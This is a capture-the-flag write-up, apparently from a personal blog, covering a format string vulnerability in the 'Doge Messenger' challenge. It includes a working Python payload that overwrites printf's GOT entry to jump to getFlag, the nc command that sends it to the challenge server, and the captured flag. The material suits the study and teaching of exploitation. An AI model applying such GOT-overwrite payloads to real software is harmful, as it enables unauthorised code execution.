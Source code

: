 ```yaml
---
title: "Doge Messenger (200 points) [Security Mooc CTF]"
date: 2017-07-06 00:00:06 +0530
categories:
  - Write-ups
header:
  teaser: "https://i.imgur.com/oucceD8.png"
tags:
  - SecurityMooc
excerpt: "Write-up for Doge Messenger, a problem in CTF conducted as a part of IIT Kanpur's Security Mooc"
---
```

Here's the [file link](/assets/write-ups/securitymoocctf/doge).
Here's the [C Source](/assets/write-ups/securitymoocctf/doge.c).


```
We have lost control on execution sequence of this program, a controlled execution were
allowing us to get the master key which one can use to login to anyone's tinder :). Here
is the binary and here is the source code. Use nc 52.7.95.224 8040 to connect to server.
```

Inspecting the source we have a function to get the flag:
```c
void getFlag()
{
	system("/bin/cat flag.txt\n");
}
```
But we don't have any calls to it.
Since all buffers and operations have fixed size thus, no buffer-overflow.

We notice at `line 62` that there's a `printf(buf)` (with a more-than-sufficient size of 256). So we can write at any address exploiting this format string vulnerability. Trying the string `aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X...` We see that that our input can be found at the 7th position (Notice the toggled case of 'aaaa').

I fired up gdb and checked `printf()`'s [disassembly](/assets/write-ups/securitymoocctf/doge.asm). Observe that it reads a jump using a value as an address from Data Segment (GOT):
```nasm
0x8048580 <printf@plt>:	jmp    DWORD PTR ds:0x804b010
```

So I chose the location `0x804b010`.
I got `getFlag()`'s address using `nm doge | grep getFlag` which gives `0x0804878b` as the value to write.

Our objective is to write exactly `0x0804878b` at location `0x804b010`.
Notice since I was writing using `printf` for the first time, I tried writing byte-by-byte instead of the usual 2 byte method, using python:
{% highlight python linenos %}
import struct
s='Kunal\n2\n'			#Need second call to printf to jump to getFlag()
s+=struct.pack('I',0x804b010) + 'a'*4
s+=struct.pack('I',0x804b011) + 'a'*4
s+=struct.pack('I',0x804b012) + 'a'*4
s+=struct.pack('I',0x804b013)
ff="%X"*5+"%" + str(0x4d + 0x8)
ff+= "X"+"%N%"+str(0x187-0x93+0x8)+"X%N%"
ff+= str(0x204-0x8f+0x8)+"X%N%"
ff+= str(0x108-0xc+0x8) + "X%N"
s+=ff
# with open("inp",'w') as f:
#	f.write(s)			#For use with gdb
print s					#For use with nc/debugging
{% endhighlight %}

One thing to take care of is that after the input, the program toggles the case of all the alphabets so, we had to be careful to toggle them intitally to nullify that effect (We fortunately didn't have any alphabets in any of the address bytes).

Now trying this input:
```console
$ python input.py | nc 52.7.95.224 8040 
                   ▄              ▄
                  ▌▒█           ▄▀▒▌
                  ▌▒▒█        ▄▀▒▒▒▐
                 ▐▄▀▒▒▀▀▀▀▄▄▄▀▒▒▒▒▒▐
               ▄▄▀▒░▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐
             ▄▀▒▒▒░░░▒▒▒░░░▒▒▒▀██▀▒▌
            ▐▒▒▒▄▄▒▒▒▒░░░▒▒▒▒▒▒▒▀▄▒▒▌
            ▌░░▌█▀▒▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐
           ▐░░░▒▒▒▒▒▒▒▒▌██▀▒▒░░░▒▒▒▀▄▌
           ▌░▒▄██▄▒▒▒▒▒▒▒▒▒░░░░░░▒▒▒▒▌
          ▌▒▀▐▄█▄█▌▄░▀▒▒░░░░░░░░░░▒▒▒▐
          ▐▒▒▐▀▐▀▒░▄▄▒▄▒▒▒▒▒▒░▒░▒░▒▒▒▒▌
          ▐▒▒▒▀▀▄▄▒▒▒▄▒▒▒▒▒▒▒▒░▒░▒░▒▒▐
           ▌▒▒▒▒▒▒▀▀▀▒▒▒▒▒▒░▒░▒░▒░▒▒▒▌
           ▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▒▄▒▒▐
            ▀▄▒▒▒▒▒▒▒▒▒▒▒░▒░▒░▒▄▒▒▒▒▌
              ▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀
                ▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀

         D O G E   M E S S E N G E R
         Send your message to doge!!

Your name: 
How many messages do you want to send? 
Your message: 
Doge's response: <Garbage>
...
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
flag{ryMiLX9dTYbbeznqUsFAC3zMP4dsiorb}
```

